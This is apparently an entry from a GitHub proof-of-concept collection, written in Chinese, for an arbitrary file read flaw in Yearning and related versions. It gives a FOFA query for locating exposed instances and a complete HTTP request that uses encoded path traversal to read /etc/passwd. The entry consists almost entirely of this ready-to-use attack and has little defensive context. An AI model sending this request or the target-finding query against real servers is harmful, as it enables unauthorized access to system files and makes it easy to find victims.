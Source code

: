 ## Yearning_front任意文件读取

该系统Yearning 2.3.1 版本、Interstellar GA 2.3.2 版本和 Neptune 2.3.4 -2.3.6 版本存在任意文件读取漏洞。攻击者可以利用该漏洞获取敏感信息。

## fofa
```
app="Yearning"
```

## poc
```
GET /front/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

![9cc6509574f5743d5897ae8fe139684d](https://github.com/wy876/POC/assets/139549762/ac553904-42aa-42be-adc3-59eedc62f7f2)
